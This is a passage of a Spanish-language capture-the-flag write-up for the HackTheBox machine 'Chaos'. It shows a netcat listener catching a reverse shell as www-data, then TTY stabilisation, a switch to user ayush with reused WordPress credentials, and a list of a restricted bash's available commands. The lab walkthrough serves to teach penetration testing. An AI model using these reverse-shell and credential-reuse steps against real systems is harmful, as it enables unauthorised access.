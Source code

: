 Gano acceso en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.120] 53372
bash: cannot set terminal process group (1073): Inappropriate ioctl for device
bash: no job control in this shell
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ script /dev/null -c bash
<f1Nd_n07H1n9_H3r3/compile$ script /dev/null -c bash             
Script started, file is /dev/null
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
<n/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ export TERM=xterm                     
shw-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ export SHELL=ba 
lumns 209chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ stty rows 55 co 
```

Se reutilizan las credenciales que vi en el ```WordPress``` para ```ayush```

```null
www-data@chaos:/$ su ayush
Password: 
ayush@chaos:/$ 
```

Estoy en una ```Restricted Bash```

```null
ayush@chaos:/$ echo $SHELL
/opt/rbash
```

Dandole dos veces a la tecla ```TAB``` me aparecen los comandos que puedo ejecutar

```null
ayush@chaos:/$ 
!                         break                     coproc                    esac                      getopts                   mapfile                   set                       true
./                        builtin                   declare                   eval                      hash                      ping                      shift                     type
:                         caller                    dir                       exec                      help                      popd                      shopt                     typeset
[                         case                      dirs                      exit                      history                   printf                    source                    ulimit
[[                        cd                        disown                    export                    if                        pushd                     suspend                   umask
]]                        command                   do                        false                     in                        pwd                       tar                       unalias
{                         command_not_found_handle  done                      fc                        jobs                      read                      test                      unset
}                         compgen                   echo                      fg                        kill                      readarray                 then                      until
alias                     complete                  elif                      fi                        let                       readonly                  time                      wait
bg                        compopt                   else                      for                       local                     return                    times                     while
bind                      continue                  enable                    function                  logout                    select                    trap                      
```
